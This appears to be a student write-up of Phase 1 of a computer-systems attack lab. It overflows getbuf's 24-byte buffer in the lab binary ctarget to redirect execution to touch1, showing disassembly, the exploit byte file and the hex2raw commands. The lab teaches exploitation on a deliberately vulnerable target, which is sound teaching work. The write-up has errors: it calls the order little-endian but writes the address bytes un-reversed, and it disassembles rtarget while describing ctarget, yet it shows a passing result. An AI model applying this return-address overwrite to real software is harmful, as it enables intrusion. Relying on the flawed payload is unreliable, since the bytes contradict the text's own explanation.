 
Phase 1 is the easiest of the 5. What you are trying to do is overflow the stack with the exploit string and change the return address of getbuf function to the address of touch1 function. You are trying to call the function touch1.

run ctarget executable in gdb and set a breakpoint at getbuf

```b getbuf```

Then disasemble the getbuf function
```disas```

Since the buffer size is a run time constant, we need to look at the disasembled code to figure it out.
```assembly
Dump of assembler code for function getbuf:
=> 0x0000000000401748 <+0>:	    sub    $0x18,%rsp
   0x000000000040174c <+4>:	    mov    %rsp,%rdi
   0x000000000040174f <+7>:	    callq  0x40198a <Gets>
   0x0000000000401754 <+12>:	    mov    $0x1,%eax
   0x0000000000401759 <+17>:	    add    $0x18,%rsp
   0x000000000040175d <+21>:	    retq   
End of assembler dump.
```

If you look at ```sub $0x18,%rsp```, you can see that 24 (0x18) bytes of buffer is allocated for getbuf.

Now you know the buffer size and you need to input 24 bytes of padding followed by the return address of the touch1 address.

To find the address the touch1, you need to get the dissasembled code for ctarget executable.

```objdump -d rtarget > rtarget_dump.s```

The above command will save the dissasembled code in file rtarget_dump.s open that file (I use vim) and find the touch1 function.

I found touch1 inside rtarget which looked like

```assembly
0000000000401919 <touch1>:
  401919:       48 83 ec 08             sub    $0x8,%rsp
  40191d:       c7 05 f5 3b 20 00 01    movl   $0x1,0x203bf5(%rip)        # 60551c <vlevel>
  401924:       00 00 00 
  401927:       bf ad 34 40 00          mov    $0x4034ad,%edi
  40192c:       e8 9f f3 ff ff          callq  400cd0 <puts@plt>
  401931:       bf 01 00 00 00          mov    $0x1,%edi
  401936:       e8 b7 05 00 00          callq  401ef2 <validate>
  40193b:       bf 00 00 00 00          mov    $0x0,%edi
  401940:       e8 0b f5 ff ff          callq  400e50 <exit@plt>
```
So it's address is at ```0x401919```

When you write the bytes, you need to consider the byte order. My system is a little-endian so the bytes go in reverse order.

Finally create a text file named phase1.txt which will look like below
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 /* the first 24 bytes are just padding */
40 19 19 00 00 00 00 00 /* address of touch1 */
```
Now you need to take this file and run it through the program hex2raw, which will generate raw exploit strings

```./hex2raw < phase1.txt > raw-phase1.txt```

Finally, you run the raw file

```./ctarget < raw-phase1.txt```

You will get something like below if your solution is right.
```ssh
Cookie: 0x3451d86d
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```
